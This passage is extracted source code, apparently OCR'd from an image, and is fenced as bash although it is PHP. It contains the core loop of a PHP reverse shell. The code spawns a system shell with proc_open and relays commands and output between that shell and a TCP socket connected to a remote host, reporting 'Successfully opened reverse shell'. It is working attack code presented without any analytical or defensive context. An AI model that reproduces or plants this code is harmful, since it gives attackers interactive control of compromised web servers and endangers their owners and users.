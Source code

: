 ```bash

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

```
